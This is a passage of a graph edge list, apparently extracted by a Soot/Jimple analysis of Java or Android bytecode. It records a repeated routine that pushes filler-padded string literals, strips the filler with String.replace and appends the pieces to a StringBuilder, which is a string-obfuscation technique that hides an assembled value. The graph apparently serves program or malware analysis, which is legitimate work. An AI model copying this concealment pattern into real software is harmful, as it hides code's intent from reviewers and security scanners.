    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7XXXXX5XXXX720XXX0X\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7XXXXX5XXXX720XXX0X\"";
    "push \"7XXXXX5XXXX720XXX0X\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"025qqqqB4qqq9qqqq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"025qqqqB4qqq9qqqq\"";
    "push \"q\""
    "push \"025qqqqB4qqq9qqqq\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"88848888D8888BA888688808888\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"88848888D8888BA888688808888\"";
    "push \"8\""
    "push \"88848888D8888BA888688808888\""->"push \"8\"";
    "push \"8\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2446746EA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2446746EA\"";
    "push \"4\""
    "push \"2446746EA\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MB2MAMMM5MMMM02\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MB2MAMMM5MMMM02\"";
    "push \"MB2MAMMM5MMMM02\""->"push \"M\"";
    "push \"M\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zzz00zzz0078\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zzz00zzz0078\"";
    "push \"zzz00zzz0078\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"70::0:0:::00:::\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"70::0:0:::00:::\"";
    "push \"70::0:0:::00:::\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"R001R10RRRR0RRRR\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"R001R10RRRR0RRRR\"";
    "push \"R\""
    "push \"R001R10RRRR0RRRR\""->"push \"R\"";
    "push \"R\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nnn00nnnnn0001\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nnn00nnnnn0001\"";
    "push \"nnn00nnnnn0001\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0b0bbbbbbbb0b0bb07\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0b0bbbbbbbb0b0bb07\"";
    "push \"b\""
    "push \"0b0bbbbbbbb0b0bb07\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D90VVV0V00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D90VVV0V00\"";
    "push \"D90VVV0V00\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00QQ0400\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00QQ0400\"";
    "push \"Q\""
    "push \"00QQ0400\""->"push \"Q\"";
    "push \"Q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00lll0015\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00lll0015\"";
    "push \"l\""
    "push \"00lll0015\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"bbb00b0bbbbbb000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"bbb00b0bbbbbb000\"";
    "push \"bbb00b0bbbbbb000\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"X04XXXX0000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"X04XXXX0000\"";
    "push \"X04XXXX0000\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q00qq1qq2qqq00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q00qq1qq2qqq00\"";
    "push \"q00qq1qq2qqq00\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0000iii8iiiiA\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0000iii8iiiiA\"";
    "push \"0000iii8iiiiA\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000ff000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000ff000\"";
    "push \"000ff000\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0d2d0d000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0d2d0d000\"";
    "push \"0d2d0d000\""->"push \"d\"";
    "push \"d\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0n0nnnn0300\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0n0nnnn0300\"";
    "push \"0n0nnnn0300\""->"push \"n\"";
    "push \"n\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00EE0E00EEEE1EEE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00EE0E00EEEE1EEE\"";
    "push \"00EE0E00EEEE1EEE\""->"push \"E\"";
    "push \"E\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tttt0tttt00tt0ttt00tttt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tttt0tttt00tt0ttt00tttt\"";
    "push \"tttt0tttt00tt0ttt00tttt\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"K04KK00KK00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"K04KK00KK00\"";
    "push \"K04KK00KK00\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \";;;;00;;;;;1;000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \";;;;00;;;;;1;000\"";
    "push \";;;;00;;;;;1;000\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0oo00o01oooo1oooo\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0oo00o01oooo1oooo\"";
    "push \"o\""
    "push \"0oo00o01oooo1oooo\""->"push \"o\"";
    "push \"o\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0000IIII00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0000IIII00\"";
    "push \"0000IIII00\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"226666066660006\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"226666066660006\"";
    "push \"226666066660006\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"02QQDEFE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"02QQDEFE\"";
    "push \"02QQDEFE\""->"push \"Q\"";
    "push \"Q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4N88CN0NNN0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4N88CN0NNN0\"";
    "push \"4N88CN0NNN0\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0OOO0000O0OOO\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0OOO0000O0OOO\"";
    "push \"O\""
    "push \"0OOO0000O0OOO\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0XX075XXX7XX2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0XX075XXX7XX2\"";
    "push \"0XX075XXX7XX2\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZZZ0Z0ZZ0ZZ25ZZZZB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZZZ0Z0ZZ0ZZ25ZZZZB\"";
    "push \"ZZZ0Z0ZZ0ZZ25ZZZZB\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5A578CCCCF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5A578CCCCF\"";
    "push \"5A578CCCCF\""->"push \"C\"";
    "push \"C\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2039@@@@14\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2039@@@@14\"";
    "push \"2039@@@@14\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"B8f5DffE2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"B8f5DffE2\"";
    "push \"B8f5DffE2\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"t020000tttt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"t020000tttt\"";
    "push \"t020000tttt\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"787000\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"787000\"";
    "push \"3\""
    "push \"787000\""->"push \"3\"";
    "push \"3\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"022022222220220122221\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"022022222220220122221\"";
    "push \"022022222220220122221\""->"push \"2\"";
    "push \"2\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"01bbbb0bbbbb1bbbbbbbb0bbbb1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"01bbbb0bbbbb1bbbbbbbb0bbbb1\"";
    "push \"01bbbb0bbbbb1bbbbbbbb0bbbb1\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tttt01t0tt101\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tttt01t0tt101\"";
    "push \"tttt01t0tt101\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6061666066166601\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6061666066166601\"";
    "push \"6061666066166601\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"<010<<10<<1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"<010<<10<<1\"";
    "push \"<010<<10<<1\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0LLLL101LLL0LLLL1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0LLLL101LLL0LLLL1\"";
    "push \"0LLLL101LLL0LLLL1\""->"push \"L\"";
    "push \"L\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"J010J1JJJJ73\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"J010J1JJJJ73\"";
    "push \"J\""
    "push \"J010J1JJJJ73\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7XXX20XXX0XXXXXX18\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7XXX20XXX0XXXXXX18\"";
    "push \"7XXX20XXX0XXXXXX18\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"f6A617fff6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"f6A617fff6\"";
    "push \"f6A617fff6\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"61Y2YEYYY75\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"61Y2YEYYY75\"";
    "push \"61Y2YEYYY75\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7IIII46II9III6C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7IIII46II9III6C\"";
    "push \"7IIII46II9III6C\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2E5AAAA3AAAA69\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2E5AAAA3AAAA69\"";
    "push \"2E5AAAA3AAAA69\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6VVDVVV706CVV\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6VVDVVV706CVV\"";
    "push \"6VVDVVV706CVV\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6554vvvv69vvvv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6554vvvv69vvvv\"";
    "push \"6554vvvv69vvvv\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6>>>D6>>5>>>>>>>5>A\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6>>>D6>>5>>>>>>>5>A\"";
    "push \"6>>>D6>>5>>>>>>>5>A\""->"push \">\"";
    "push \">\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6ZZZFZ6ZE6ZZ5ZZZZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6ZZZFZ6ZE6ZZ5ZZZZ\"";
    "push \"6ZZZFZ6ZE6ZZ5ZZZZ\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
